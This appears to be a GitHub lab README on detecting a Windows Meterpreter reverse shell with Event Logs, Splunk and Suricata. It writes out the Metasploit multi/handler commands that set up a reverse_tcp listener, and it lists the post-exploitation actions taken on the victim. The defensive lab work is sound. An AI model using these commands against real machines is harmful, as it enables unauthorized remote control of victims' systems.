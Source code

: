 ## Objective: Windows reverse shell attack and detect artifacts using Windows Event Logs and Suricata.

Attacker Machine: Kali Linux / Ubuntu (Metasploit)
Victim Machine: Windows 10
Tools Used: - Metasploit (msfconsole) - Windows Event Logs - Splunk (on Ubuntu) - Suricata (network IDS)


## Attack Simulation Steps
1. Launch Metasploit multi/handler:

msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.20.10.2
set LPORT 5555
exploit

2. Establish Meterpreter session: Create files, execute payloads, modify registry, attempt scheduled tasks.

3. Artifacts Created on Victim:
   
<img width="757" height="135" alt="image" src="https://github.com/user-attachments/assets/6fa6774f-ad66-4848-8dbf-086d52f0d6e6" />


## Relevant Windows Event IDs
<img width="832" height="402" alt="image" src="https://github.com/user-attachments/assets/d57020a9-c581-4af1-a9fc-6178b744e77c" />


## Example Splunk SPL Queries
<img width="812" height="613" alt="image" src="https://github.com/user-attachments/assets/214a0b96-16b9-4ee3-a577-1107769e2804" />



 ## Screenshots of process

<img width="1691" height="416" alt="image" src="https://github.com/user-attachments/assets/23248c63-74da-4e9b-9be9-c64f4401fe2f" />

<img width="1342" height="750" alt="image" src="https://github.com/user-attachments/assets/65c465ce-6298-436a-a908-9c33f137c834" />


<img width="1368" height="847" alt="image" src="https://github.com/user-attachments/assets/ee628736-3494-476c-b034-e7a86810e345" />


<img width="1358" height="799" alt="image" src="https://github.com/user-attachments/assets/cb041ef2-1f3d-43a1-8e1f-69a9a033ce39" />






## Notes / Recommendations
Ensure Object Access Auditing is enabled for file and registry tracking.

Regularly monitor Event IDs 4688, 4663, 4657, 4698 in Splunk or your SIEM.

Store Sigma rules as documentation and convert them to SPL using online converters or manually.

Use network IDS like Suricata to complement endpoint event detection.

